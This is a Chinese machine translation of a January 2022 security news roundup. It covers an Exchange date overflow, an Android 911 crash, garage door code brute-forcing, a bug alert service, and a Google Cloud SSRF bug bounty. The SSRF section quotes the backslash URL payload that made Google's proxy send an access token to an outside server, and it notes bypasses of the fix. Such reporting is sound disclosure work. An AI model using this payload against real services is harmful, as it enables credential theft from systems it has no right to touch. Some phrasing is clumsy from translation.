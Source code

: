 # 本周安全:Y2K22，意外阻塞 911，和错误警报

> 原文:[https://hack aday . com/2022/01/07/this-week-in-security yy2k 22-incidentially-blocking-911 and-bug-alert/](https://hackaday.com/2022/01/07/this-week-in-securityy2k22-accidentally-blocking-911and-bug-alert/)

如果你在过去的一周里不幸运行了微软的 Exchange 服务器，那么你不需要我[告诉你关于 Y2K22 问题](https://arstechnica.com/information-technology/2022/01/exchange-server-bug-gets-a-fix-after-ruining-admins-new-years-plans/)。为了赶上我们，当 Exchange 试图下载 2022 年的第一个恶意软件定义更新时，新定义的版本号触发了恶意软件检测引擎的崩溃。日期表示为字符串`2201010001`，其中前两位数字表示年份。这个字符串被转换成一个有符号的长整数，在`2,147,483,647`达到最大值。整数溢出，结果是未定义的行为，使引擎崩溃。服务器故障安全，不处理任何没有工作的恶意软件引擎的消息，这意味着没有电子邮件通过。新年快乐！

## Android 911 拒绝服务

拨打 911 寻求紧急服务几乎是软件漏洞显现的最糟糕的时间。谷歌刚刚在 1 月份的 Android 更新中修复了这样一个 bug。这是一种奇怪的意想不到的应用程序交互——在这种情况下，微软团队触发了 Android bug。如果安装了 Teams 应用程序，但没有帐户登录，Teams 会在每次启动时创建并注册一个新的`PhoneAccount`对象。这听起来很少见，但是 Android 上的团队也因为自发注销用户而臭名昭著。当你拨打 911 时，Android 运行一个例程来确定应该使用哪个`PhoneAccount`来路由呼叫，并通过比较哈希值来解决平局。这种比较只是一种幼稚的减法，意味着有 50%的机会得到否定的结果。这是没有预料到的，导致了崩溃。

## 车库门逆向工程

对一个有 30 年历史的无线授权方案进行逆向工程可能不是最引人注目的壮举，但有时这个过程本身就是一种奖励。[麦克斯韦·杜林]给我们带来了这个故事，这次旅行当然是值得的。这种攻击的基本原理仍然是可行的，从硬件开始。发送代码时按住接收器上的按钮，车库门与车库门遥控接收器同步。开启器内有九个双列直插式开关，每个开关有三个位置。他们是做什么的？他拿出他值得信赖的 SDR 来获取流量，并试图解码信号。Inspectrum 和 GNU Radio 是这里的英雄，让我们深入了解这个简单的认证方案。关于这个真正的车库门的结论？你可以通过发送每一个可能的连击来暴力破解一个未知代码，而且只需要 104 分钟。

## 错误警报

如果您是系统管理员，您知道有些问题需要立即采取行动。如果您运行 Java 服务器，Log4J 漏洞是对您的响应协议的一个考验。从公开披露到你听到它的时间，可能已经足够引发灾难。虽然有多种错误报告服务和框架，但没有一种非常适合这种利基用例:尽快通知您您的头发可能真的着火了。这个空缺的职位吸引了马修·沙利文，他宣布了一个新项目，Bug Alert。它都是开源的，所以如果你真的想的话，你可以托管你自己的实例。你可以选择发推文，发短信，甚至打电话。这有可能成为一个有用的工具，看看吧！

我觉得我需要让 Bug 警报触发[一首奇怪的艾尔歌曲……](https://www.youtube.com/watch?v=zvfD5rnkTws)

## 僵尸 SSRF

[David Schütz]正在[搜索晦涩难懂的谷歌 API](https://bugs.xdavidhu.me/google/2021/12/31/fixing-the-unfixable-story-of-a-google-cloud-ssrf/)，并发现了`jobs.googleapis.com`，你可以自己演示。这个演示很有趣，因为它不是一个完全充实的服务，而是与真正的后端对话。请求通过代理`cxl-services.appspot.com`，它处理演示页面的认证步骤。如果他能触发一个服务器端请求伪造(SSRF)，他也许能得到经过验证的请求，也许能欺骗代理代表他发送流量。URL 解析很难。成功的诀窍？url 中的反斜杠。`GET /proxy?url=https://sfmnev.vps.xdavidhu.me\@jobs.googleapis.com/ HTTP/1.1`

手里拿着一个访问令牌，[David]开始仔细研究其他 Google APIs，看看这个令牌让他可以访问什么。他给出了我们之前提到过的警告，小心你推的距离。他本可以立即报告这个 bug，但是想要确认他实际上有一个实时访问令牌。在确认令牌可用于读取访问后，他上交了这一发现，净赚了 3133.70 美元，此外还因出色的报告和对横向移动的仔细观察获得了 1000 美元的额外奖励。仅此而已，对吧？没有。就在 90 天披露截止日期之前，[David]发现了一个修复旁路。在反斜杠和@之间添加任何文本都足以打破它。又是 3133.70 美元。只是为了好玩，他探测了旧的网址，修复后不应该在服务中。是的，他发现了另一个安全令牌，净赚了 3133.70 美元。这个僵尸 SSRF 还没死，[推特上的证据](https://twitter.com/xdavidhu/status/1477664931877163010):

> 我告诉过你，它是不可修复的！ [@n1nj4sec](https://twitter.com/n1nj4sec?ref_src=twsrc%5Etfw) 已经绕过了修复。太酷了！你会是第四个绕过它并获得$3k 的人吗？😎解析一个网址真的很难。pic.twitter.com/5xmg5tbybw
> 
> —大卫·舒茨(@ xdavidhu)[2022 年 1 月 2 日](https://twitter.com/xdavidhu/status/1477664931877163010?ref_src=twsrc%5Etfw)